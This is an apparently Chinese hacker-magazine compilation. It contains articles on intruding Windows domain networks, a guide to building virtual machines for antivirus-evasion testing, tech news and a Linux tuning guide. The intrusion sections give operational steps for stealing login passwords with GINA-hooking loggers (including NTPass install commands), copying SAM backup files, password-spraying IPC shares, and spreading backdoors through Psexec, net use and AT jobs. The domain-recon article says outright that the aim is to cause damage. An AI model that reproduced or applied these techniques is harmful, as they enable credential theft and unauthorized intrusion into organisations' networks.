若碰到 WIN2K 的机器，我们还可以尝试使用 findpassword 获取在线用户的密码，如图 6 所示，WIN2K3 的可以用 findpassword2003 获得密码。但在域结构的环境中，光跑机器的 Hashes 还是不行的，因为有时候我们拿到的机器只有普通权限，这个时候就要采用被动的获取方法了。

首先选用的是社会工程学和第三方软件（例如 FLASHFXP 等 FTP 软件；PCANYWHERE、VNC 等远程控制程序等；mssql、mysql 等数据库管理软件等），其次要采用类似 Gina2003 等专门进行登录密码记录的程序进行监视并记录域用户的用户名和密码。如图 7 所示，为 gina2003 运行后记录的效果（这里要注意的是，终端下安装需要 SYSTEM 权限，gina2003 安装不需要重新启动）。

再简单介绍下这类程序，比如 WinlogonHack，它通过挂钩系统中的 msgina.dll 的 WlxLoggedOutSAS 函数来记录登录账户密码，其安装和卸载很简单，直接运行压缩包内的批处理文件即可，它记录的是终端登录密码，重启后，本地登录的密码也可以记录到。

其实也可以自己写个小程序将 DLL 打包到资源里，释放后再写注册表即可。同类程序还有 Goldsun 写的 NTPass（将 DLL 文件 COPY 到 SYSTEM32 目录后），安装命令为：`rundll32 NTPass.dll,Install`，卸载命令为：`rundll32 NTPass.dll,Remove`，密码记录文档在：`%systemroot%\system32\uelogd.txt`。具体的执行效果和运行截图我就不给了，大家可以自己测试下。

最后再说一个小技巧：当获得机器的最高权限时，别忘了下载“%windir%\repair\sam”以及“%windir%\repair\system”这两个文件。

为什么呢？因为这文件是初始安装系统时所设置密码的备份，我们可以从中获取管理员以前设置的密码（或许也是现在使用的密码）。但最主要的目的是，多采集管理员的密码，对分析管理员的密码设置习惯会有很大的帮助，进行社会工程学攻击的时候，也可以更加如虎添翼！对于域结构的环境，这也有助于获取域账户甚至域管理员的密码。

### 二、内网信息初步探测

为了能更了解目标内网的结构，我们一般会采取一些轻微的探测动作。在了解目标内网 IP 分配情况后，了解内网中的操作系统使用情况也是我们必做的功课，一般利用 SMB 来获取（SMB 需要 139 端口开放才可以）。我使用的小工具是 THCsmbgetOS，多线程版本，方便我们“群探”，工具的使用效果如图 8 所示。

有了操作系统的大体布局，我们就可以根据情况使用较新的 EXP 进行有目的性的渗透测试，以及有目的性的对 WIN2K 和 WIN2K3 进行 WEB、MSSQL、MYSQL 等常用端口进行扫描！至于端口扫描，我们可以用 WinEggDrop 写的 TCP Port Scanner V1.1，也就是很多人都熟悉的 S.exe 扫描工具，如图 9 所示（我不推荐那种漫无目的的端口扫描动作，这样只会让自己暴露得更快）。


有了第一步获取的密码文档，我们一般都会扩大渗透范围，这时社会工程学的用处就完美地体现出来了。用 IPCSCAN 配合字典 ipcpass.dic（ipcpass.dic 字典中的内容为我们收集和破解的所有密码，以及根据管理员密码设置习惯进行的大体猜测）进行指定范围的扫描，执行效果如图 10 所示。

当猜解到有效密码时，我们再配合 Psexec 进行扩渗，如图 11 所示。当然，你也可以用 net use 命令建立 IPC 后，COPY 后门到目标机器，配合计划任务 AT 命令执行即可，如图 12 所示。

由于时间关系，其他更详细的探测方式我们等下期再继续介绍吧……

> 【文章中所涉及的工具已经收录到本期光盘】

**编辑点评：**
NP 介绍的都是一些很实用的工具，大家可以在虚拟机中来测试一下，就有所了解了，收藏吧。

> 第六篇：《入侵高校网站》

信息泄露源：2008 年第 12 期杂志第 78 页图 13

我的入侵：打开网址 `http://www.xxx.com/`，随便点个链接，放到 pangolin 直接跑了出来，如图 13。

直接按照作者的方法入侵，发现本地上传的文件直接被删除了，如图 14。我对 php 代码不是很熟悉，我想 magic_quotes_gpc 为 0 怎么也能写入文件吧？可本人能力有限，还望高手不吝赐教。

好吧，文章就写到这里，希望各位不要再按图索骥，对网站做什么破坏。最后对当期这些文章的作者说声 SORRY，不小心拿你们当典型了，呵呵，我想大家也不会记恨于我吧？如果有什么不明白的地方欢迎到论坛找我，id 是边城三少。


> 编辑点评：

有样子，这真是我们 2008 年度最认真的读者了，没有把我们的杂志当成八卦周刊。其实本文作者的学习过程，我在编辑文章的时候有时也会这样，按作者投稿里的方法来试一下，这样可以更好地对作者和读者负责。

# 高手专栏

## 域内网中的信息收集之一：内网结构的探测

这期的专栏是我设定的题目，看够了注入，是不是想了解一下内网的入侵手法呢？作为出题人，自然要写一篇了。在各式各样大小不同的内网中，最常见的就是域内网了。其实域内网的入侵和我们平常的入侵手法在总体上来讲逻辑是一样的，也是信息的收集、分析、找出薄弱点，然后击破，再综合归纳整理，最终拿到域管理员的密码，这才算是大功告成。有了内网的第一台机器的权限后，如何收集信息，这是很关键的一步，这篇文章讲的就是域内网信息收集的第一步。

说起来，我们不是专业的组网人员，对内网的拓扑结构能否通过第一台机器的 IP、子网掩码、DNS 等信息就分析出来，真的是很困难。不过我向来认为这是不重要的，因为我们是来搞破坏的，又不是帮它组建。

不过想知道大体划分，可以用 Advanced IP Address Calculator 这个工具来分析一下。在内网中要知道内网的大体结构，几个命令就够了，第一个是 `ipconfig /all`。我在本机搭建了一个域环境，运行得到结果如图 1。

从图 1 中我们可以看到子网掩码、本机 IP、网关和 DNS 服务器是多少，你可以用这些数据结合 Advanced IP Address Calculator 这个工具来在脑子里面画出一个大体结构，看看有几个子网，每个子网可能有多大等等。我是认为不重要的，所以略过。

多数内网当中，很有可能 DNS 服务器也就是其中的一台域服务器，我们在这里就要介绍另一个重要的命令了，那就是 `net`。


- net view　可以看到本机所在的域约有多少台机器。
- net view /domain　可以看到有几个域。
- net view /domain:域名　可以看到每个域中有多少台机器。
- net group "domain admins" /domain，可以看到域管理员的名字，运气好的情况下是直接可以看到域服务器是哪一台的，如图2所示。
- net group　可以看清把用户分了多少个组。

在英文机器中，我们要看域管理员密码用的是 **net group "domain admins" /domain** 命令，在非英文机器上，你可能要把 domain admins 这个名字换一下，得先用 **net group** 来看看哪一个可能是域管理员的组。

以上的关键步骤是探测出域管理员的名字和域服务器的名字。探测域服务器是哪一台还有另外几种办法，除了 DNS 的名字和 **net group "domain admins" /domain** 这个命令外，还可以使用命令 **net time /domain**，因为域服务器一般也做时间服务器。

不过除了用系统命令外，结合工具也是不错的办法。微软对域提供了专门的 ADSI（Active Directory）活动目录服务模型，其中在域用到的就是 ADSI 的接口之一 LDAP 提供者，专门用来管理域的。


我们可以写一个很简短的 vbs 程序来探测出域服务器是哪一台，1.vbs 代码如下，运行后的结果如图3所示。

```vbscript
set obj=GetObject("LDAP://rootDSE")
WScript.echo obj.servername
```

收集到这些信息够了吗？当然不够，所以我们还要继续收集。http://www.rlmueller.net 这个网站上有很多专门针对域的 vbs，我挑选了两个，还做了一下改动，让它更适应我们的入侵。

第一个是 DocumentProperties.vbs，代码太长就不贴出了，直接来看运行示例。输入命令 **cscript DocumentProperties.vbs LDAP://dc=gethash,dc=cn**，你会得到太多的信息了，如图4、图5，我没有办法截完全图，大家运行一下就知道厉害了。

大家可能会想，我为什么会用 **LDAP://dc=gethash,dc=cn** 这个字符串呢？它从哪来的？其实就是在图3中我写的那两句小代码 1.vbs 来得到的。当然你也可以具体到看具体用户，像加上 **LDAP://cn=TestUser,ou=Sales,dc=MyDomain,dc=com** 这样一串参数，表示查看在 MyDomain 这个域中，里边的 Sales 部门里的 TestUser 用户是什么样的具体信息。


我们再用 DocumentProperties.vbs 来举两个例子，它也可以直接探测本机信息的。输入命令 **cscript DocumentProperties.vbs WinNT://./administrator**，如图6所示，查看本机 administrator 的信息，比如密码长度呀，多久过期呀等。如果你看到可能一两天就要过期了，表示它肯定要来修改密码了，这时你就会想到丢个记录密码的东西上去了。

另外，输入命令 **cscript DocumentProperties.vbs WinNT://./Themes,service**，如图7所示，可以查看 Themes 服务的相关信息，比如路径、启动方式等。

这个脚本虽然权限需要高一点，但是也有好处，直接运行就可以，不像前一个 DocumentProperties.vbs，需要你对域知识有相关的一些概念。由于这个脚本它原来要调用 Excel 组件，而且还会弹出 IE 对话框，我花了一点时间进行修改，可以直接保存成 html 了，无声无息且方便用于入侵，也不需要提供什么 Excel 组件了，系统默认都支持的。

由于在程序中我用的是数组 pc(65535,10)，如果内网过大（>65535？呵呵），请小心使用。直接运行后，它的结果如图8所示，会列出域中每一台机器的系统版本、充当什么重要角色、打的补丁号等等。普通域用户的权限就够了。还有一个 vbs 是 **Inventory2.vbs**，这个我在内网中试过，好像需要域管理员权限。

说实话，我虽然对域内网有过入侵经验，但毕竟没有亲自组过域内网，很多专业名词我也没有去查专业字典，只是凭自己的理解写出来的，所以文中如果有不严谨的地方，希望读者指出，我们下一期再继续内网入侵之旅。

> 【本文用到的工具 Advanced IP Address Calculator、1.vbs 及 Document Properties.vbs 已收录在本期光盘】

## 构建差分硬盘虚拟机的免杀测试环境

※ X140CC

从本文你可以学到：

- 1. 如何用 VPC 搭建虚拟机；
- 2. 详尽的虚拟机安装操作与技巧；
- 3. 如何通过差分硬盘构建多个免杀测试环境。

HI，大家好啊，又到一年一度的春节了，在这里祝读者朋友们新年快乐！回想过去的2008年，我们经历了雪灾，经历了地震，经历了奥运等等以及现在的金融危机。我们对未来充满迷惘，但是因为经历，却可以让我们成长。我们不应该在困难面前倒下，正如学习一样。

学习免杀说的不是一朝一夕就可以完成的，因为免杀所涉及的技术的确是非常的广泛，比如编程、加壳，需要熟悉对文件结构的处理等等，光是编程这一种就够你学习好几年了。我朋友跟我说，学习 Delphi 半年就可以出师，但是学习 C 语言至少也要一年啊！假如你精通了 C 语言，又把汇编搞定了，那么其它编程语言看到你都会俯首称臣，你说是吧？

免杀技术一直被像我一样的广大菜菜们所喜爱，通过对免杀技术的学习，可以更多地了解杀毒软件的杀毒原理以及系统底层的知识，并且可以拓展自己的知识结构。

通过对木马病毒的研究，可以更深入地去了解木马病毒的原理，甚至通过掌握的这些知识将来到软件安全公司或者杀毒软件公司去就职。做免杀的人多数都是对技术的追求，只有少数人会拿病毒木马去卖钱，善恶到处都有，也并非仅于此处，凡事都需要看自己的对待方式了。

本文作为入门的第一篇，算是写给菜级学免杀的朋友的，首先本文先介绍如何搭建虚拟机，建立起自己的免杀测试环境。

### Microsoft Virtual PC 2007 虚拟机的安装与配置

免杀一般都是对病毒木马的操作，如果在自己的系统内操作出错导致误运行，后果很难想象！所以我们来搭建一个虚拟机环境，以避免麻烦发生。

所谓虚拟机，简单地说就是系统中的系统，这个环境和我们用的系统是一样的，可以在里面安装软件及其它应用程序，还可以上网，当然也可以进行免杀的相关操作。由于虚拟机具有还原功能，在虚拟机中运行的木马病毒在虚拟机重新启动后就会消失，这样就可以进行多次测试，很方便，很实用。

网上的虚拟机软件有很多，这里介绍一个还算比较优秀的 Microsoft Virtual PC 2007，这款虚拟机最适合新手了，操作上很容易，使用上也很人性化。下载安装软件后进行安装，默认是安装在 C 盘；安装结束后进行汉化，按照说明安装好汉化文件就可以了。太简单了就不截图了，呵呵。


现在打开虚拟机软件，你可能会发现看到的界面还是英文的，如图1。

图1中包含了两个我已经安装好了的虚拟机，现在我们改一下配置，改成中文界面。依次选择“File”→“Options”，之后弹出一个窗口，点击最下面的“language”选项，在右边的下拉框中就可以选择语言了，我们选择最后一个将软件设置成简体中文，如图2。


设置完成后不会立即变成简体中文的，先关闭程序，之后再打开就可以了，如图3，已经变成简体中文界面了。


接下来就是在虚拟机上安装系统了，先新建一个虚拟机。点击图3右侧最上方的“新建”按钮，会弹出新建虚拟机向导，然后点击“下一步”，看到了三个选项，如图4。


由于是第一次使用，所以选择第一个选项就可以了，至于中间的那个选项，一般很少去用，而最下面的一个，可以加载已经存在的虚拟机（虚拟机其实就是生成在硬盘中的一个大文件），一会我们再细说。之后点击“下一步”，继续操作，来到图5的界面。

在新建虚拟机之前，建议先在非系统盘里建立两个文件夹：比如“配置文件”和“虚拟机硬盘”，一个用来存放虚拟机的配置文件，一个用来存放虚拟机硬盘文件，这样会更方便。

在图5中，单击“浏览”选择存放配置文件的位置，也就是我们建好的“配置文件”文件夹。接着继续“下一步”，是选择操作系统类型，随便选就行，就不截图了。继续“下一步”，来到了内存分配的地方，如图6。


对于虚拟机中所安装的系统的内存设置，需要看你本身电脑的系统配置，也要看你虚拟机系统中所要运行的软件的需要，依靠性能来选择，一般 300—500M 就可以了。我本身的电脑是 2G 内存，所以分配给虚拟机 512M 内存，然后点击“下一步”，来到如图7“虚拟硬盘选项”。

在这一步中选择“新建虚拟硬盘”，继续“下一步”来到“虚拟硬盘位置”，如图8。

这里是保存虚拟机的硬盘文件，可以保存在前面我们建立的“虚拟机硬盘”文件夹内，也就是说，虚拟机的硬盘是以一个文件的形式存在的，虚拟机的硬盘数据都将保存在这个文件内，它相当于我们真实的物理硬盘，其大小是可以设置的，一般默认就可以。另外，这个文件并不是设置多大马上就生成有多大，它是动态扩展的，你设置的大小只是最大的限制。

设置好虚拟硬盘大小后继续“下一步”，一个虚拟机就这样建成了。这里补充说明一下，如果你的电脑系统重装了之后，只要不是对虚拟机所安装的分区进行格式化，数据是不会丢失的。我们可以运行虚拟机软件，来到图4的界面，选择“添加一台已存在的虚拟机”，然后“下一步”来到图5的界面选择存在的位置文件，再一步一步地配置下去就会还原出重装系统前的虚拟机了。

所以说，虚拟机这款软件装在哪里都是无所谓的，主要是配置文件和虚拟硬盘文件不要丢失。现在虚拟机其实就是一台运行在我们系统下的计算机，它已经和真实的电脑没什么两样，接下来就要给虚拟机装操作系统了。

### 二、虚拟机操作系统的安装与操作

现在我们要给虚拟机安装操作系统了，系统最好装 XP 或者 2003，XP 个人用户最多，2003 服务器用户最多，这便是一个符合实际情况的选择。

首先选择你要启动的虚拟机，然后单击“启动”按钮，如图9。启动虚拟机之后就会弹出一个系统窗口了，将来这里就是你的操作场所。在没有安装系统的情况下，会显示黑乎乎的一个窗口，如图10。


我们来给虚拟机安装系统，可以选择两种方式，一种是用真实机器的物理光驱，一种是载入 ISO 映像，如图11。

如果你是通过自己电脑上的物理光驱进行系统安装，插入了系统盘，虚拟机中是可以识别的，这样就像给物理机器装操作系统一样，流程大家都是很熟悉的吧。

本文将采用 ISO 映像的方式来安装系统。这样更方便一些，这里给大家演示安装 Windows 2003。先按照图11中那样，选择“CD”→“载入 ISO 映像”，然后选择一个 Windows 2003 的 ISO 映像文件进行载入。


当载入后，这个菜单会出现“释放”（后面会出现你载入的文件名称）选项，如图12。这样当装完系统后，可以点击“释放”解除载入的映像。其实载入映像就相当于给虚拟机加了一个虚拟光驱，释放就相当于卸载这个虚拟光驱。


载入映像后关掉虚拟机窗口，重新启动虚拟机，关闭的时候会有一个提示框，如图13。


我们选择关闭电源，它和物理机器（你的真实机器）关闭电源是一个效果。保存状态就是把当前黑乎乎窗口的状态保存下来，下次启动虚拟机的时候，不需要启动过程，直接进入到保存时的状态。

现在来启动虚拟机，一会儿后就看到了我们熟悉的操作系统安装界面，如图14。安装过程这里就不一一截图说明了，安装完系统后，再次启动虚拟机就可以进入系统，如图15。


此时在虚拟机中系统的桌面上点击鼠标，指针就被锁定在虚拟机里面了，如果要把鼠标释放出来，按空格键右侧的 ALT 键就可以了。

接下来安装虚拟机附加模块，这个模块有两个很重要的功能，一个是支持鼠标随意进出虚拟机窗口，另一个是支持物理机器和虚拟机之间的文件随意拖拽。安装操作如图16，选择“操作”→“安装或升级附加模块”，安装完后重新启动虚拟机就可以进行拖拽文件了，如图17。


这样，虚拟机的安装过程就完成了，你可以先拖拽进去一些文件，例如 WinRAR 之类的系统必备工具。现在，一个可以进行测试使用的虚拟机已经搞定了，接下来我们遇到一个问题，是不是每搭建一个环境都要新建一个虚拟机，安装一次操作系统呢？而且每次安装完系统的虚拟硬盘文件都有 1G 多，甚至更大，如果搭建了 10 个虚拟机环境，就要重装 10 次系统，岂不是相当麻烦？

接下来就要介绍本文的精华部分了，那就是差分虚拟硬盘搭建虚拟机的方法。如果你所有的虚拟机环境都是用同一种操作系统，通过下面的方法就可以很快复制出多个相同的系统环境，而且还为物理硬盘节省出更多的空间。

### 三、利用差分虚拟硬盘复制出多个环境

所谓的虚拟机差分硬盘，就是新建立一个虚拟差分硬盘来关联一个已经安装好的操作系统的母盘。通过设置，在虚拟机中的操作或实验都将存在差分硬盘中，而不更改原来母盘系统的任何数据。当然，母盘的大小从此不再改变，一个母盘可以关联多个差分硬盘，这样就构造出多个环境。

在前面，我们已经有一个虚拟机硬盘安装好了 Win2003 系统，接下来把这个虚拟机硬盘文件的属性设置为“只读”，防止数据被写入，如图18。


在图8中，这个硬盘文件的名字为“免杀测试硬盘”，这里我已经将它更名为“2k3 母盘硬盘”，以便于区分。改完硬盘名字后，在虚拟机设置里也要相应地把名字改过来，要么虚拟机无法加载这个硬盘。当然，如果仅仅把这个硬盘作为母盘来用的话，虚拟机中就不直接用它了。

现在可以把刚安装的虚拟机在列表里删除，这里的删除只是在列表里把名称删掉，配置文件和硬盘文件都还存在的，我们只使用差分硬盘的虚拟机，所以列表里原来的这个使用母盘的虚拟机可以删掉。

接下来我们生成一个差分硬盘，操作如图19，选择“文件”→“虚拟磁盘向导”。


图19，选择“文件”→“虚拟磁盘向导”，然后“下一步”选择“创建一个新磁盘”，继续“下一步”后选择“虚拟硬盘”，然后在“下一步”操作中保存差分硬盘的名字到前面我们提到过的存放虚拟机硬盘的文件夹中。

一直“下一步”来到图20的界面，在这里选择“差分硬盘”，然后“下一步”选择一个关联的母盘，如图21，之后再点击“下一步”直至差分硬盘被创建。

接着开始新建虚拟机，和前面的操作过程一样，只不过在来到图7的界面时选择“已存在的虚拟硬盘”，之后选择我们刚刚建立的差分硬盘。在图22的界面中，下面有一个选项为“是否启用还原磁盘”，这个选项先不要勾选，在后面的设置中会说到。

新建的虚拟机创建完毕后，直接启动虚拟机，我们发现进入了选择的已经创建的虚拟机系统中。至此，差分硬盘虚拟机就创建完成了，如果你还需要继续创建，就先创建一个差分虚拟硬盘和母盘进行关联，之后再新建虚拟机，选择差分硬盘作为虚拟机硬盘就可以了。

现在我们已经可以构建多个虚拟机，而不用每次都安装系统了。由于对系统的更改全部保存在差分磁盘中，而母盘也设置了“只读”，所以任何数据都不会写入母盘，母盘可以多次重复使用。但是，如果你想把虚拟机的系统换成其它的操作系统，还是需要重新安装系统的。

**请注意：不要在差分硬盘中安装系统，需要新建母盘然后安装系统。**


### 关于虚拟机的一些设置

接下来简单介绍一下虚拟机的设置。在虚拟机的电源关闭状态下，可以对虚拟机的内存、硬盘、网络模式等进行设置，这里只对一些最常用的设置进行说明。

在选中一个虚拟机的前提下，点击右侧的“设置”按钮就可以对虚拟机的参数进行设置了，如图23。之后弹出设置的对话窗口，如图24。

我们可以看到有许许多多的项目可以进行设置的，“文件名”这里可以更改虚拟机的名称，“内存”的设置可以更改内存的大小。硬盘设置我们分别看到了“硬盘 1”“硬盘 2”“硬盘 3”，其中硬盘 1 是系统盘，也就是创建虚拟机时所创建的那个盘；对于硬盘 2 和硬盘 3，是预留给用户自己添加其它虚拟硬盘用的，在系统中会显示为 D 盘和 E 盘。

虚拟硬盘可以通过“虚拟硬盘向导”来创建，也就是在图20中选择“动态扩展”之后保存一个虚拟硬盘。下面我们来设置“还原磁盘”，在图24中，我们看到显示的是“禁用”，只要把它“开启”，就相当于给系统安装了还原卡，这样在关闭虚拟机的时候会有提示，如图25。


# 黑客免杀班


图24　重命名虚拟机

选择“关闭电源并删除更改”就会将当前在系统中所有未提交的数据全部删除。当然，你若想给虚拟机安装软件，预先可以先关闭还原功能，而且尽量不要在还原功能开启的情况下用“保存更改”的选项，万一在此过程中虚拟机程序意外关闭，容易导致虚拟机的系统崩溃。

接下来一个重要的设置就是网络了。在网络设置里，如果你的电脑是公网 IP，或者局域网内自动获取 IP，可以设置和物理机用一个网卡。如果你是在局域网内用固定 IP，可以设置 NAT 连接模式，这样你的虚拟机就可以上网了。至此，整个虚拟机的搭建过程也就完成了。

### 五、总结


图25　关闭电源提示

Microsoft Virtual PC 2007 这款虚拟机软件我是比较喜欢的，也推荐给大家使用，它很容易操作，尤其是一些功能还是不错的，比如可以随意从物理机和虚拟机之间拖拽文件，还可以利用差分硬盘迅速筛选出多个相同的环境等。这些功能是一些同类虚拟机软件无法比拟的，总之本文就是为了给免杀初学者搭建一个免杀测试的环境。

> 【本文所涉及的相关程序已收录在本期光盘中】

**编辑点评：**

要免杀，首先肯定就是使用一个干净又容易清理的环境来做测试了，所以虚拟机对于免杀来说绝对是首选。很多人都在用微软的产品，而且微软出品的 Virtual PC 是一个不错的选择，上手容易，非常适合我等菜鸟。看了这篇文章，相信你也能够很容易配置出一个适合自己的免杀环境出来。

**絮语：**

这个月最让小编吃惊的就是 Eee PC 上跑起 Android 的消息了。虽说 Google 早就在打便携移动设备的主意了，本以为 Google 会开发自己的终端，没想到 Google 竟然直接把 Android 拿来用了。虽然推出 Android 的上网本目前还没有任何官方的回应，但看形势是错不了，Google 这一招肯定会给微软和苹果造成巨大的打击。对于微软，Vista 显然与移动设备无缘，所以微软延长 XP 的服役时间，等着 Windows 7 出来收拾的时候，Google 已经建立起完善的网络和服务了。越来越觉得，网络时代，不适合微软啊……

## Linews

- 1、Google Chrome 份额再度超过 1%

频繁的升级更新有效地确保了 Google Chrome 浏览器的使用份额，而 1.0 最终正式版的发布再次将其份额提升到了 1% 之上。当然，Google Chrome 的用户量和份额是无法与其关注度相比的，要想成为一款重量级浏览器的路还很长。根据 Net Applications 的统计数据，Safari、Firefox、IE 的用户量分别是 Chrome 的 7 倍、20 倍和 70 倍左右。

Google Chrome 在今年 9 月初刚发布的时候份额曾经一度飙升，第三天冲到了 1.16%，随后急剧滑落，到 10 月 15 日只剩 0.69%。不过，Google 还是找到了提升份额的好办法：不断升级。推出一个月来，Chrome 一直都在升级，直到现在终于完成了第一个正式版本，随后份额慢慢上升，这也是 9 月份以来第一次重返 1% 之上。

**风闻点评：**

经过了这么长时间，Chrome 终于挺过来了，在正式版发布后将市场份额提升到 1% 已经是个不错的成绩了。同时，在 Chrome 苦苦挣扎的这段时间，IE 也过得非常辛苦，微软的 IE 浏览器市场份额几十年来首次跌至 70% 以下。火狐在努力地抢 IE 的饭碗，Chrome 看上去是矛头对着 IE，抢走的大多却是火狐的用户，Google 还在宣传：用 Chrome 和火狐访问 Gmail 的速度是 IE 的 2 倍。而在国内，“米栏”的风头也不亚于 Chrome，目前的情况：很乱，很乱……

- 2、谷歌 Android 上网本 2009 年诞生？

现在有很多人都在猜测 2009 年究竟会诞生哪些科技新品，而美国知名科技博客 GigaOM 却给出了一个看似有些牵强的预测——2009 年将诞生首款基于 Android 操作系统的上网本。

上网本（netbook）和 Android 是当今科技界最为热门的两个产品，但是将它们整合到一起的想法却似乎有些荒谬。不过 GigaOM 却认为，这完全有可能在 2009 年成为现实。

之所以做出这一推断，主要原因是通信终端芯片厂商高通（Qualcomm）也是“开放手机联盟（Open Handset Alliance）”的一员，而该组织正是谷歌为推广 Android 手机而牵头组建的。

尽管上网本从本质上讲还是笔记本电脑，但是“上网”才是它最主要的用途。而且，随着“云计算”服务和无线宽带技术的成熟，上网本也将以其小巧便携的优势对这两个领域起到推动作用。可是很大的一块蛋糕。

- 3、适合所有 Linux 发行版的包管理器出现

linux.com 报道，下一代包管理器 Nix 将为不同的 Linux 发行版，如 Ubuntu、Debian、SUSE、Fedora 和 Red Hat，提供一个部署二进制或源代码包的简单的、分配独立的方法。

更有利之处是，Nix 不会干扰现有的包管理器。与现有包管理器不同的是，Nix 允许软件的不同版本共存，因此用户可以自由降级。Nix 将是复杂环境和需要编写支持不同库、编译器和解释程序的开发者的有利的系统管理工具。现有的包管理器在软件升级方面都存在缺陷，通过使用 Nix，升级将是非常安全的，它不会覆盖之前已安装的软件，这意味着你可以随时回到旧版。

**风景点评：**

包管理问题是阻碍 Linux 发展的最严重的问题之一，各个厂商使用不同的包管理机制，使得 Linux 上的软件，特别是商业软件的开发产生不少困扰。现在这个问题还并不明显，但当 Linux 普及、大量 Linux 应用涌现之时，你就会为软件的选择而烦恼了。还好，我们现在已经有了应对方案。

- 4、Wine 将步入 64 位时代

Wine（Wine Is Not an Emulator）是一个 Linux 上运行 Windows 程序的解决方案，在长达 15 年的开发进度后，终于发布了它的 1.0 版本。而现在，开发人员发布公告表示，将启动 64 位的 Wine 项目，这一项目被称为 Wine64。

**风景点评：**

Wine 大家都不陌生了，可喜的是 Wine 要出 64 位版本了，虽然具体的细节到目前还不知道，就先把消息告诉大家吧，一起期待一下。

## Linux 系统级优化简明手册

图　小糊涂神

**本文是基于 RHEL 5.0、2.6.18-8 内核来阐述的**

我不喜欢废话，直接先启动系统进入，然后从四大部分：进程（服务）、文件系统、内存、设备来优化。

```text
[root@localhost sbin]# head -n 1 /etc/issue
Red Hat Enterprise Linux Server release 5 (Tikanga)
[root@localhost]# uname -r
2.6.18-8.el5xen
```

### 一、服务

像 mysql、sendmail、postgresql、httpd 等都是非常棒的服务，但是当你不使用它的时候，应该停止，这样不仅可以少占用宝贵的系统资源，还可以减少安全隐患。检查自己系统使用中的服务，可以使用 nmap 工具扫描。

```text
[root@localhost ~]# nmap -p1-65535 127.0.0.1

Starting Nmap 4.11 ( http://www.insecure.org/nmap/ ) at 2009-01-04 01:07 EST
Interesting ports on localhost.localdomain (127.0.0.1):
Not shown: 65528 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
111/tcp open  rpcbind
631/tcp open  ipp
902/tcp open  iss-realsecure-sensor
```

检查特定端口上正在运行的程序名：

```text
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address   Foreign Address State PID/Program name
tcp   0  0 127.0.0.1:2208  0.0.0.0:* LISTEN 3082/hpiod
tcp   0  0 0.0.0.0:902    0.0.0.0:* LISTEN 2840/rpc.statd
tcp   0  0 0.0.0.0:111    0.0.0.0:* LISTEN 2805/portmap
......
```

另外，可以使用 ntsysv 工具来启动或关闭服务。

#### 小知识：xinetd 是什么？

xinetd 是一个 daemon 程序，所有结尾带 d 的程序都是 daemon 程序，也就是守护程序。守护程序分为 2 种处理模式：

- 第一个是 stand alone 状态的，表示该程序始终监听，一直处于运行状态，例如 httpd；
- 第二个是 super daemon，它始终处于 sleep 状态，直到有人唤醒它。

xinetd 就是一个 super daemon，但它的使命是将一个请求转给其它服务，也就是服务的管理员。由 xinetd 管理的服务会立即受到 ntsysv 的影响，其它的服务则不会立即生效，必须使用 service daemon start/stop/restart 来启动／停止／重启服务。

一般而言，保留的服务如下：

- autofs
- crond
- keytable
- network
- random
- syslog
- xfs
- xinetd
- cups（有打印机时才需要）

### 二、文件系统的优化

#### 1、块大小

查看 Linux 的系统块大小：

```text
[root@localhost sbin]# tune2fs -l /dev/hdaX | X 表示 1,2...... 根据具体系统而定，可通过 df 命令查看，tune2fs 可以查看整个文件的所有信息！
tune2fs 1.39 (29-May-2006)

Block size              4096
```

查看 Linux 系统页的大小：

```text
[root@localhost ~]# getconf PAGESIZE
4096
```

在创建一个新的文件系统时，可以指定系统块的大小，不同块的大小可以使文件系统得到较好的性能。如果你创建的文件系统里存放了一些较大的文件，比如说数据库服务，可以使用较大的块，以便减少文件碎片，加快扫描的速度和文件的读、删除操作的速度。如果你创建的文件系统里存放的是一些较小的文件，比如说邮件服务，这会让较大的块造成磁盘空间浪费。系统块的文件的最后存取时间，对很多人来说没有任何用处，因此，我们可以关闭操作系统记录文件最后存取时间的功能，只需要修改：`/etc/fstab`。

```text
把 `LABEL=/boot /boot ext3 defaults 1 2`
改为
`LABEL=/boot /boot ext3 defaults,noatime 1 2`
```

#### 2、调整文件句柄数

在一个大型的 Web 服务器中，可能 Linux 默认的同时打开最大文件数不能满足系统需要，我们可以通过调整文件句柄数和 i-节点数来增加系统的缺省限制。我们可以用 **ulimit -a** 来查看所有限制值，在这里我只关心文件句柄数量的问题。

```text
[root@localhost ~]# ulimit -a
......
open files                (-n) 1024
......
```

这里的 1024 是对用户的限制，完整地说，应该是对当前用户准备运行的程序的限制。修改 **/etc/security/limits.conf**，里面有注释。

```text
#        - "soft" for enforcing the soft limits
#        - "hard" for enforcing hard limits
......
#        - nofile - max number of open files
```

即包括软限制和硬限制。硬限制是实际的限制，而软限制则是 warning 限制，只会做出 warning。

- soft nofile 2048
- hard nofile 32768

把文件句柄的软限制改成 2048，硬限制改为 32768。

Ulimit 其实就是对单一程序的限制，而对系统的总限制是在 **/proc/sys/fs/file-max**。

```text
[root@localhost ~]# cat /proc/sys/fs/file-max
383889
可以用 echo `xxxx` > /proc/sys/fs/file-max 立刻修改
另外还有一个只读的 /proc/sys/fs/file-nr，可以看到整个系统目前使用的文件句柄的数目
[root@localhost ~]# cat /proc/sys/fs/file-nr
3520    0    383889
```

#### 3、不使用 atime 属性

当文件被创建、修改和访问时，Linux 系统会记录这些时间信息，比如记录文件最近一次被读取的时间信息，当系统的读文件操作频繁时，这将是一笔不少的资源开销。所以，为了提高系统的性能，我们可以在读取文件时不修改文件的 atime 属性。

**可以通过在加载文件系统时使用 noatime 选项来做到这一点。**

当以 noatime 选项加载（mount）文件系统时，对文件的读取不会更改文件属性中的 atime 信息。设置 noatime 的重要性是消除了文件系统对文件的写操作，文件只是简单地被系统读取。

由于写操作相对于读来说要更消耗系统资源，所以这样设置可以明显提高服务器的性能。注意 mtime 信息仍然有效，任何时候文件被写，该信息仍被更新。比如在你的系统中，要为 /home 文件系统设置 noatime 选项，可以修改 /etc/fstab 文件相应的行，相关操作步骤如下：

```text
LABEL=/home /home ext3 noatime 1 2
要使该设置立即生效，可运行命令
[root@localhost ~]# mount -o remount /home
这样以后系统读取 /home 下的文件时将不会再修改 atime 属性。
```

#### 4、使用内存文件系统

在 Linux 中可以将一部分内存当作硬盘来使用，我们称之为 ramdisk。对于一些经常被访问的文件，而它们又不会被更改，可以将它们通过 ramdisk 放在内存中，可明显地提高系统的性能。当然，这要求你的内存足够大。

